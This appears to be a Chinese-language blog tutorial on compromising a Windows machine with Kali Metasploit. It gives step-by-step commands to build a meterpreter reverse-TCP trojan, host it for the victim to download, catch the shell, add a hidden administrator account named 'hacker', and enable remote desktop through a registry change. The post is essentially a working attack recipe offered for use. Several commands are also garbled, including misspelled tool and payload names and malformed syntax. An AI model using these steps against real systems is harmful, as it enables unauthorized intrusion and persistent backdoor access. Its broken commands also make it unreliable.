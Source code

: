```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      MSF 内网渗透 				# 标题 
subtitle:   利用kali MSF 内网渗透获取远程桌面。  #副标题
date:       2019-03-18				# 时间
author:     陈建武 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:内网							#标签
    - 教程
---
```


## Hey
1.kali 终端运行 msfconsole

2.用MSF下的msfvenom来生成木马程序到根目录。

命令：msfenom -p /windows/meterpreter/preverse_tcp lhost=“这里写你的本机ip” lport=“这里写你的端口，注意！不要和已经开启的端口冲突。” -f exe >/muma.exe

3.开启一个简易web服务器。

命令：python SimpleHTTPServer 8080

4.用目标机的浏览器访问下载木马程序。

5.加载 exp。

命令：use  exploit/multi/handler

6.设置我们的payload。

命令：set /windows/meterpreter/preverse_tcp

set lhost “本机ip”

set lport “你刚才的端口”。

7.查看我们的设置。

命令：show options

8.开启监听。

命令：run

9.目标机器下载并点击我们的木马文件。

10.得到meterpreter，shell到目标的终端。

命令：shell

11.添加一个用户。

net user hacker 123.com /add

12.把创建的用户加入到管理员组。

net localgroup administrators hacker /add

13.打开目标3389端口。

命令：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

14.kali 运行链接远程桌面的工具。

rdesktop “目标的ip”

15.完成。
